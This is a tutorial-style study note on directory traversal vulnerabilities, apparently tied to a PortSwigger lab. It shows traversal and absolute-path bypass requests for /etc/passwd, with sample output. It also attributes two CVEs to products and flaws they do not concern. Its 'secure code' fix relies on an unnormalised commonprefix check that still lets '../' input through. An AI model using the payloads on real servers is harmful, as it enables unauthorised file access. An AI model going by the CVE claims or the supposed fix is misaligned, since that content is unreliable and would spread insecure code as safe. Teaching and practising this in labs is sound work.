



## Directory Traversal Vulnerability

### What is Directory Traversal?

Directory traversal, also known as path traversal, is a type of web security vulnerability that allows an attacker to access restricted files, directories, and executables on the server. This can lead to unauthorized access to sensitive information, such as passwords, configuration files, and other critical data. The vulnerability arises due to improper input validation and sanitization of user-supplied input used to reference files.

### Why Does Directory Traversal Matter?

Directory traversal attacks can have severe consequences, including:

- **Data Exposure**: Attackers can gain access to sensitive files containing confidential information.
- **Code Execution**: In some cases, attackers can execute arbitrary code on the server.
- **Denial of Service**: By accessing and manipulating critical system files, attackers can cause the server to malfunction or crash.

### How Does Directory Traversal Work?

In a typical scenario, a web application might allow users to specify a file path to download or view a file. If the application does not properly validate the input, an attacker can manipulate the path to traverse directories and access unauthorized files.

#### Example Scenario

Consider a web application that allows users to download files from a specific directory. The URL might look like this:

```
http://example.com/download?file=images/image.jpg
```

If the application does not properly sanitize the `file` parameter, an attacker could manipulate it to access other files on the server. For instance:

```
http://example.com/download?file=../../../../etc/passwd
```

This would attempt to access the `/etc/passwd` file, which contains user account information on Unix-based systems.

### Real-World Examples

#### Recent CVEs and Breaches

- **CVE-2021-21972**: A directory traversal vulnerability was found in the WordPress plugin "WP File Download." An attacker could exploit this vulnerability to access arbitrary files on the server.
- **CVE-2022-22965**: A directory traversal vulnerability in the Apache Struts framework allowed attackers to access sensitive files and potentially execute arbitrary code.

### Testing for Directory Traversal

To test for directory traversal vulnerabilities, you can use tools like Burp Suite, which includes features such as Repeater and Intruder to manipulate and test HTTP requests.

#### Using Burp Suite

1. **Send Request to Repeater**:
    - Open Burp Suite and navigate to the Repeater tab.
    - Send the HTTP request to the Repeater tab to analyze and modify it.



2. **Modify Request**:
    - Modify the `file` parameter to include directory traversal sequences such as `../`.



3. **Test Absolute Path Bypass**:
    - If the application blocks relative paths, try using absolute paths.



### Complete Example

Let's walk through a complete example using Burp Suite to test for directory traversal.

#### Initial Request

The initial request to the server might look like this:

```http
GET /download?file=images/image.jpg HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Accept: */*
```

#### Modified Request with Relative Path

Modify the request to include relative path traversal:

```http
GET /download?file=../../../../etc/passwd HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Accept: */*
```

#### Response

If the server returns a `400 Bad Request`, it indicates that the relative path traversal is blocked.

```http
HTTP/1.1 400 Bad Request
Content-Type: text/html; charset=UTF-8
Content-Length: 17

No such file on the system.
```

#### Absolute Path Bypass

Try using an absolute path:

```http
GET /download?file=/etc/passwd HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Accept: */*
```

#### Successful Response

If the server returns the contents of the `/etc/passwd` file, it indicates a successful directory traversal:

```http
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 1024

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

### How to Prevent / Defend Against Directory Traversal

#### Detection

- **Web Application Firewalls (WAF)**: Implement WAF rules to detect and block directory traversal attempts.
- **Logging and Monitoring**: Monitor access logs for suspicious patterns indicating directory traversal attempts.

#### Prevention

- **Input Validation**: Ensure that user-supplied input is validated and sanitized to prevent directory traversal.
- **Whitelist Filenames**: Restrict access to a predefined list of filenames rather than allowing arbitrary paths.
- **Use Safe Libraries**: Utilize libraries that handle file paths securely, such as `pathlib` in Python.

#### Secure Coding Fixes

##### Vulnerable Code

```python
import os

def download_file(file_path):
    file_path = os.path.join("/var/www/images", file_path)
    with open(file_path, "rb") as f:
        return f.read()
```

##### Secure Code

```python
import os

def download_file(file_name):
    safe_path = os.path.join("/var/www/images", file_name)
    if not os.path.commonprefix([safe_path, "/var/www/images"]) == "/var/www/images":
        raise ValueError("Invalid file name")
    with open(safe_path, "rb") as f:
        return f.read()
```

### Configuration Hardening

#### Web Server Configuration

Ensure that your web server is configured to restrict access to sensitive directories. For example, in Apache, you can use `.htaccess` files to deny access to certain directories:

```apache
<Directory /var/www/images>
    Order Deny,Allow
    Deny from all
</Directory>
```

### Practice Labs

For hands-on practice with directory traversal vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs to practice and understand directory traversal attacks.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing various web security techniques, including directory traversal.
- **DVWA (Damn Vulnerable Web Application)**: Provides a variety of web application vulnerabilities, including directory traversal, for educational purposes.

By thoroughly understanding and practicing these concepts, you can effectively identify and mitigate directory traversal vulnerabilities in web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/11-Directory Traversal/03-Lab 2 File path traversal traversal sequences blocked with absolute path bypass/01-Introduction to Directory Traversal Vulnerabilities|Introduction to Directory Traversal Vulnerabilities]] | [[Web Security (PortSwigger)/11-Directory Traversal/03-Lab 2 File path traversal traversal sequences blocked with absolute path bypass/00-Overview|Overview]] | [[Web Security (PortSwigger)/11-Directory Traversal/03-Lab 2 File path traversal traversal sequences blocked with absolute path bypass/03-Practice Questions & Answers|Practice Questions & Answers]]
